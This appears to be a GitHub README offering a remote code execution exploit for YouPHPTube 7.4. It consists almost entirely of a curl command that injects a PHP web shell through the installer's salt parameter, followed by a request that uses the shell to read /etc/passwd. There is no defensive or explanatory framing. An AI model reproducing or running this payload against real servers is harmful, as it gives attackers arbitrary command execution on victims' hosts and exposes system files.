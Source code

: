 ## YouPHPTube 7.4  Remote Code Execution 

```sh
curl -s "http://put-ip-here/install/checkConfiguration.php" --data "contactEmail=fake-email@fake.com&createTables=2&mainLanguage=RCE&salt=';system(\$_GET['bots']);echo '&systemAdminPass=zerodays.LOL&systemRootPath=/var/www/html/&webSiteRootURL=/var/www/html/&webSiteTitle=Site-Title-Here&databaseHost=127.0.0.1&databaseName=Any-DBname-Here&databasePass=&databasePort=3306&databaseUser=root" 
```
Visit site and add param `bots=` for RCE.

```php
http://put-ip-here/?bots=cat+/etc/passwd
```
